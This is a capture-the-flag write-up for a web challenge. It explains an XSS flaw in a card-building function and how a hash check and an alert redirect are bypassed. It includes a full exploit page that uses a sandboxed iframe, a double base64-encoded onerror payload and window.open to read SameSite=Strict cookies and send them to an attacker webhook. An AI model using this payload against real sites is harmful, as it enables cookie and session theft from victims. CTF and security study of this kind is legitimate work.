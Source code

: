 # Writeup
Observation on the application:
- Flag is stored in admin cookie.
- Flag cookie is set to SameSite=Strict that means we can't access it from another domain, even from an iframe.
- The application is vulnerable to XSS in this code:
```js
    ...snip...
    function createWaifuCardHTML(file, buttonText, buttonAction) {
        const sanitizedFile = DOMPurify.sanitize(file);
        const imgHTML = `<img src="${sanitizedFile}" class="card-img-top">`;
        const buttonHTML = `<button class="btn btn-outline-light" onclick="${buttonAction}('${sanitizedFile}')">${buttonText}</button>`;
        return `<div class="card text-center waifu-item">${imgHTML}<div class="btn-container">${buttonHTML}</div></div>`;
    }
    ...snip...
```
- But we can't directly exploit it because there's some restriction here:
```js
    function displayClaimedWaifus(paths) {
        if (REGEX_SAVE_PROPS.test(initialHash)) {
            throwAlert("Invalid characters detected in the hash. Please try again.");
        }
        ...snip...
    }
    ...snip...
```

```js
    ...snip...
    function throwAlert(message) {
        document.location.hash = "";
        alert(message);
        document.location = document.referrer;
    }
    ...snip...
```
Here the step to get xss and steal the flag

1. Create a page that contains the following code:
```html
<body></body>
<script>
    const TARGET = "http://proxy"
    const i1 = document.createElement('iframe')
    function waifuDomainScript() {
        /**
            I use window.open to open a new window, this will make the browser create new window context that
            have cookies with SameSite=Strict.
        */
        const w = window.open("/")
        w.onload = () => {
            window.location = webhook + "?" + w.document.cookie
        }
    }

    let payload = btoa(`webhook='${location.origin}';(${waifuDomainScript})()`)
    payload = btoa(`" onerror="eval(atob('${payload}'))" x="`)
    i1.src = TARGET + '#' + payload
    /**
        Create a sandboxed iframe to prevent alert from being triggered.

        We only need to allow scripts, same origin, and popups, you can check the doc here:
        https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe#sandbox

        Because the iframe have recursion prevention system that stated here:
        https://www.w3.org/TR/WD-frames-970331#Infinite%20Recursion
        the frame will eventually stop the recursion redirect through the document.referrer and execute our payload.

        There is other way to bypass this, but this is the shortest way to do it.
        As example you can use csp to prevent the frame from redirecting to document.referrer.
    */
    i1.sandbox = 'allow-scripts allow-same-origin allow-popups'
    document.body.appendChild(i1)
</script>
```

2. Serve the page using a web server, make sure the server is accessible from the internet.
3. Send the link to the victim.
4. Wait for the victim to open the link.
5. The flag will be sent to the webhook.

## Read more
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie#samesitesamesite-value
- https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe#sandbox
- https://www.w3.org/TR/WD-frames-970331#Infinite%20Recursion
